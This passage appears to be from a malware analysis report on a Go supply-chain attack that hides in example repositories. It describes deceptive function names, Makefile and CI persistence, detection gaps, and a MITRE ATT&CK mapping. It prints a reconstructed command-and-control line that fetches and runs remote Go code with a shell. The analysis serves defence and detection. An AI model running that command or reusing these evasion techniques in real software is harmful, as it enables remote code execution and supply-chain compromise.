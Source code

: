 #### Semantic Deception
Functions utilize legitimate-sounding names to evade detection:
- `middlewareGate()` - Appears to be middleware configuration
- `execCompatibilityCheck()` - Mimics compatibility testing
- `bridgeWorkerShim()` - Suggests internal bridging logic

### Command and Control (C2) Characteristics

**Reconstructed Command:**
```bash
go run github.com/fasthttp/websocket/_examples/command sh
```

This command represents a sophisticated C2 mechanism:
- Leverages Go's native `go run` for direct remote execution
- Targets example code repositories (often unmonitored)
- Uses shell interpreter for maximum flexibility

## Persistence Mechanisms

### Developer Environment Integration

1. **Build System Integration**: Makefile execution triggers malicious code during routine development workflows
2. **Dependency Chain Pollution**: Once integrated, spreads through internal repositories via copy-paste propagation
3. **CI/CD Pipeline Infection**: Automated build processes execute malicious code without human oversight

### Example Code as Attack Vector

Example repositories represent critical security blind spots:

**Risk Factors:**
- Minimal security scrutiny compared to production dependencies
- Frequent developer interaction and copying
- Often hosted on legitimate platforms (GitHub, GitLab)
- May persist indefinitely without maintenance

**Detection Challenges:**
- Standard dependency scanners ignore example code paths
- Static analysis tools may not analyze `go run` remote execution
- Legitimate use of `exec.Command()` in infrastructure code

## MITRE ATT&CK Mapping

| Technique | Implementation | Detection Opportunity |
|-----------|----------------|----------------------|
| T1195.002 | Malicious example repo | Repository reputation analysis |
| T1027 | Hex encoding, semantic deception | Entropy analysis, function naming patterns |
| T1059.004 | Shell command execution | Process monitoring, command line analysis |
| T1105 | Remote code download via `go run` | Network monitoring, Go module analysis |
| T1543 | Process creation via exec | EDR process tree analysis |
